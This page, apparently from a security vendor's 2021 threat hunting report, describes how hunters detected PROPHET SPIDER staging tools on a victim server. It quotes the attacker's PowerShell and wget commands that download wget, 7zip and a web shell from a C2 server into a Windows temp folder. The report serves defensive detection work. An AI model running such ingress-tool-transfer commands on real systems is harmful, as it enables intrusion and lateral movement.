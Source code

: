 What threat hunting delivers: Threat hunting is crucial for ensuring that adversaries 
are unable to transfer files into a victim network unnoticed. In this intrusion attempt, 
PROPHET SPIDER first used PowerShell to retrieve a copy of a Windows version of 
the wget utility. Then, using wget, they downloaded a web shell and a low\-prevalence 
scanning tool. OverWatch threat hunters caught this activity by proactively hunting 
for unexpected processes retrieving files from external servers. OverWatch routinely 
pays close attention to the presence of legitimate tools that eCrime adversaries are 
known to use.

Why Windows When You Can Linux? 

The behavior that OverWatch observed next revealed PROPHET SPIDER’s style and 
preferences. The adversary executed the following PowerShell command to retrieve 
and install a binary file:

powershell \-Command (New\-Object 
System.Net.WebClient).DownloadFile(:443/wget.bin', 
'C:\\Windows\\temp\\wget.bin')

Further analysis confirmed that this file from their external C2 server was a 
legitimate PE file version of the wget utility for use on Windows. This is a common 
approach OverWatch has observed PROPHET SPIDER take when operating in 
Windows environments. Typically, the servers they compromise for initial access 
are Linux\-based, so a repeated use of wget on Windows machines suggests their 
preference and comfort using traditional Linux tooling when possible. 

20 https://attack.mitre.org/techniques/T1105/ 

2021 Threat Hunting Report30

After installing wget.bin, the adversary immediately used it for additional ingress 
tool transfer. They proceeded to install a copy of 7zip:

c:\\windows\\temp\\7fde\\wget.bin \-t 1 :443/7z.bin \-O 
c:\\windows\\temp\\7fde\\7z.bin

They also used wget to retrieve a web shell with a file name of pia.jsp. Another tool 
they installed was their scanner of choice, a simple low\-prevalence network scanning 
tool often named pscan. The tool scans a range of IP addresses for one specific port. 
CrowdStrike has observed it in both PE and ELF versions, which is consistent with 
PROPHET SPIDER’s focus on targeting both Linux and Windows servers. In this case, 
they used pscan to scan the network for openings on port 445 (SMB), likely in hopes 
of moving laterally.

Conclusion and Recommendations

Thanks to OverWatch threat hunters’ rapid discovery of the activity, the customer 
received the necessary information to cut off the adversary’s access, preventing 
PROPHET SPIDER from using this network as its next resale opportunity for 
ransomware operators. 

Interestingly, the adversary returned one month later to the same server and attempted 
to perform similar TTPs. Such perseverance illustrates the determination of eCrime 
adversaries as they continue to mature and specialize in various functions of the eCrime 
ecosystem. It is an unfortunate fact that intrusions are rarely a one\-off event.21

The best defense against opportunistic attacks by access brokers is to ensure your 
externally facing servers are fully patched. However, preventative measures are not 
a silver bullet. Adversaries may be able to bypass even robust and secure perimeters 
using a variety of techniques. Therefore, proactive threat hunting like what 
OverWatch provides is also essential. When threat hunters are effectively scouring 
your network for even the most subtle clues of a potential adversary presence, they 
can quickly home in on unusual behaviors, such as the living\-off\-the\-land discovery 
actions that PROPHET SPIDER used early in this intrusion. 
